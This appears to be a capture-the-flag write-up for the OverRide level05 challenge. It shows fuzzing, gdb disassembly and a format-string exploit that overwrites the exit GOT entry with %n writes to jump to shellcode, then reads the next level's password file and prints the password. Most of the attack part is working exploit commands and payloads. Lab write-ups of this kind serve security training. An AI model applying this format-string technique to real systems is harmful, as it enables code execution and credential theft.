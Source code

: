 
fuzzing phase

```
level05@OverRide:~$ ./level05
ssss
ssss

obiously some format string here

level05@OverRide:~$ ./level05
%p %p %p

level05@OverRide:~$ (python -c 'print "AAAA" + " %p " * 10') | ./level05
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd6bf  0xffffd6be  (nil)  0xffffffff  0xffffd744  0xf7fdb000  0x61616161

level05@OverRide:~$ (python -c 'print "AAAA" + " %10$p "') | ./level05
aaaa 0x61616161
```

lets jump into jdb 

```
   0x08048507 <main+195>:	call   0x8048340 <printf@plt>
   0x0804850c <main+200>:	movl   $0x0,(%esp)
   0x08048513 <main+207>:	call   0x8048370 <exit@plt>
```   
   its GOT obviously

```
   (gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
```

```

x/600wx $esp
0xffffde60:	0x90909090	0x90909090	0x90909090	0x90909090


(gdb) p 0x80497e0  = 134518752
(gdb) p 0xffffde60 - 4 = 4294958684

```

```
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294958684d%10$n"' ; cat) | ./level05 > /dev/null
id 1>&2
```

mmm smthg wrong

lets debug the assembly

```

=> 0x8048466 <main+34>:	movl   $0x64,0x4(%esp)
   0x804846e <main+42>:	lea    0x28(%esp),%eax
   0x8048472 <main+46>:	mov    %eax,(%esp)
   0x8048475 <main+49>:	call   0x8048350 <fgets@plt>
   
buffer of size 100 stored at esp + 0x28
```
0x08048495 <+81>:	cmp    $0x40,%al

0x080484a7 <+99>:	cmp    $0x5a,%al

The code checks if the character is less than or equal to 0x40, which corresponds to '@' in ASCII,
and if it is greater than 0x5a, which corresponds to 'Z' in ASCII. If the character is within this range,
the code jumps to the main+135 address, which indicates that the input is invalid.

 0x080484cb <+135>:	addl   $0x1,0x8c(%esp)

```
'A' 0x41 65    XOR     32

01000001 = 65 = 'A'
XOR
00100000 = 32

01100001 = 97 = 'a'

python3 -c "print(65 ^ 32)"
97
```

```
level05@OverRide:~$ (python -c 'print "AAAA" + "BBBB" " %10$p %11$p"') | ./level05
aaaabbbb 0x61616161 0x62626262
```

 ```
 shellAddr = 0xMsbLsb
 
Lsb - 4 - 4 (already printed 2 addr)
Msb - Lsb = 0xffff - Lsb

ex
0xffffdc59

(gdb) p 0xdc59 - 8 = 56401
(gdb) p 0xffff - 0xdc59 = 9126
```

```

(gdb)  x *((char**)environ)
0xffffd647:	0x4c454853
(gdb) p/x 0xffffd647 + 10
$1 = 0xffffd651

(gdb) p 0xd651 - 8      = 54857
(gdb) p 0xffff - 0xd651 = 10670

(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe0"[::-1] + "%54857%10$n%10670%11$n"' ; cat) | ./level05 > /dev/null
Segmentation fault (core dumped)

(gdb) x/900 $esp

0xffffdd00:	0x90909090	0x90909090	0x90909090	0x90909090

(gdb) p 0xdd00 - 8        = 56568
(gdb)  p 0xffff - 0xdd00  = 8959


level05@OverRide:~$ (python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56568d%10$n%8959d%11$n"' ; cat) | ./level05 > /dev/null
whoami 1>&2
level06
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```














